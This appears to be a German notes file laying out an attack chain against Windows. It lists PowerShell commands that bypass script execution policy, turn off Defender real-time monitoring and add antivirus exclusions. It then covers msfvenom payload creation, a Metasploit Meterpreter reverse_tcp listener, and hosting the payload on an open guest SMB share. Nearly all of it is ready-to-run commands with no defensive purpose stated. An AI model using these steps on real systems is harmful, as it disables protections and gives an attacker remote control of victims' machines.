 # Notizen – 81a5terfr34k
## Windows: 

### Richtlinien mit Powershell Befehlen ändern:
- setzen (SET) 
- Anzeigen (Get) 

---

| Befehl                                                      | Beschreibung                       |
|-------------------------------------------------------------|------------------------------------|
| Get-ExecutionPolicy                                         | Ausführungsrichtlinien anzeigen    |
| Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass  | Skriptausführung zulassen          |
| Set-MpPreference -DisableRealtimeMonitoring $true           | Antivirenscanner ausschalten       |       
| Set-MpPreference -DisableRealtimeMonitoring $false          | Antivirenscanner einschalten       |
| Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"     | Ausnahmen hinzufügen (Dateityp)    |
| Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad"           | Ausnahmen hinzufügen (Ordner)      |
| Add-MpPreference -ExclusionPath "\\192.168.x.x\SMB-Pfad"    | Ausnahmen hinzufügen (SMB/NAS)     |

---

--> Script ausführen mit: .\<scriptname>.ps1

---

## Linux:

- Payload erstellen: msfvenom
- Meterpreter Listener bereitstellen:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <kali IP>
set LPORT 4444
set ExitOnSession false
exploit -j
````

---

- smbshare Ordner erstellen: `sudo mkdir -p /srv/smbshare`
- smbshare Ordnerzugriff erteilen: `sudo chmod -R 777 /srv/smbshare`
- Payload nach smbshare Ordner verschieben: `mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/`
- Inhalt von smbshare kontrollieren: `ls -l /srv/smbshare`
- SMB Dienst starten: `sudo systemctl start smbd`
- SMB Dienst Status prüfen: `sudo systemctl status smbd`
- Zugriff auf smbshare testen: `smbclient //localhost/share -N`
- aktive Samba Konfiguration anzeigen: `testparm (/etc/samba/smb.conf)`
- SMB Konfigurations-DATEI bearbeiten: `sudo nano /etc/samba/smb.conf`
- NEUEN [share]-Block ganz unten im Dokument erstellen mit:

````
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
   
[global]-Block ergänzen:
   map to guest = Bad User
````

- speichern: strg+0 
- schliessen: strg+x
- SMB Dienst neu starten: sudo systemctl restart smbd
